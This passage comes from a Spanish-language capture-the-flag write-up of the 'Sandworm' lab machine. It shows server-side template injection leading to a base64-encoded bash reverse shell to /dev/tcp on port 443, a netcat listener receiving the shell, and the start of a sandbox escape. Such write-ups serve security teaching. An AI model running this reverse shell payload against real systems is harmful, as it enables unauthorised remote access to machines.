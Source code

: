 ![ssti command id](/img/blog/writeups/sandworm/ssa-ssti-id.webp)

Vemos que si funcionó y que somos el usuario `atlas`.

![ssti command id response](/img/blog/writeups/sandworm/ssa-ssti-id-res.webp)

Es dificil leer y ejecutar comandos largos o que tengan muchos caracteres especiales, por lo que lo mejor es encodear en `base64` el payload y probar los más cortos. Tratar de leer la `id_rsa` no será posible.

```bash
$ echo "bash -i >& /dev/tcp/10.10.14.176/443 0>&1" -n | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNzYvNDQzIDA+JjEgLW4K
```

Generamos las nuevas claves y la firma con el payload para enviarnos una **reverse shell.**

![ssti command reverse shell](/img/blog/writeups/sandworm/ssa-ssti-revshell.webp)

Nos ponemos en escucha en el puerto al cual nos enviamos la **reverse shell**.

```bash
$ nc -nlvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.11.218.
Ncat: Connection from 10.10.11.218:58168.
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
/usr/local/sbin/lesspipe: 1: dirname: not found
atlas@sandworm:/var/www/html/SSA$ id
id
uid=1000(atlas) gid=1000(atlas) groups=1000(atlas)
atlas@sandworm:/var/www/html/SSA$
```

### Escapar del Sandbox

Ya estamos en la máquina pero tenemos un problema, no podemos ejecutar varios comandos, estamos atrapados.

```bash
atlas@sandworm:/$ uname -a
uname -a
Could not find command-not-found database. Run 'sudo apt update' to populate it.
uname: command not found
atlas@sandworm:/$ hostname -I
hostname -I
Could not find command-not-found database. Run 'sudo apt update' to populate it.
hostname: command not found
atlas@sandworm:/var/www/html/SSA$
```

Explorando vemos que en el directorio `/home` de el usuario con el que estamos, `atlas`, hay un archivo `.json`.
